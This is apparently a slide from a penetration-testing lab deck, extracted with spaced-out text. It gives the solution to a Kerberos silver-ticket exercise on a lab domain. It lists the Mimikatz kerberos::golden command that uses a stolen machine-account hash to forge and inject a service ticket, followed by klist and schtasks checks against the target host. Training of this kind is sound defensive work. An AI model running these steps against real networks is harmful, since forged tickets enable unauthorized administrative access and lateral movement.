

# SOLUTION SILVER TICKET
While having the web-01 machine account hash from previous dumps.
To obtain domain sid (ignoring the last digits):
w h o a m i	/ u s e r

In Mimikatz:
k e r b e r o s : : g o l d e n  / d o m a i n : a l t o . t e l	/ s i d : [ D o m a i n	s i d ]	/ r c 4 : [ w e b - 0 1	h a s h ]
/ u s e r : a n y u s e r	/ i d : 5 0 0	/ t a r g e t : w e b - 0 1 . a l t o . t e l  / s e r v i c e : h o s t	/ p t t

Klist displays the contents of a Kerberos credentials cache or key table
K l i s t
S c h t a s k s	/ S	w e b - 0 1 . a l t o . t e l
195